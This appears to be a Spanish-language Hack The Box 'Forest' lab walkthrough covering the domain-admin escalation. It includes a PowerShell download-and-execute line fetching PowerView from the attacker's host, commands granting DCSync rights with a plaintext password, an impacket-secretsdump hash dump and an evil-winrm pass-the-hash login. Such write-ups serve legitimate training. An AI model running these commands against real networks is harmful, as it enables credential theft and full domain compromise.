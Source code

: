 1. Passamos a la maquina victima el powerView

    - en la maquina de atacante

        ```bash
        wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/powerview.ps1')
        ```

1. Asignamos el privilegio ds sync al usuario s4vitar

    ```bash
    $SecPassword = ConvertTo-SecureString 's4vit4r123$!' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('htb.local\s4vitar', $SecPassword)
    Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity s4vitar -Rights DCSync
    ```

1. Desde la maquina de atacante podemos lanzar un impacket-secretsdump para recuperar los hashes de los usuarios

    ```bash
    impacket-secretsdump htb.local/s4vitar@10.10.10.161
    ```

Ya tenemos el hash del usuario administrador

```{r, echo = FALSE, fig.cap="DCSync Admin hash", out.width="90%"}
    knitr::include_graphics("images/Forest-dcsync-admin-hash.png")
```

lo copiamos y con evilwin-rm nos connectamos como el usuario administrator haciendo un passthehash.

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d3372a07ceea6'
```

`WHOAMI -> htb\administrator` ;)

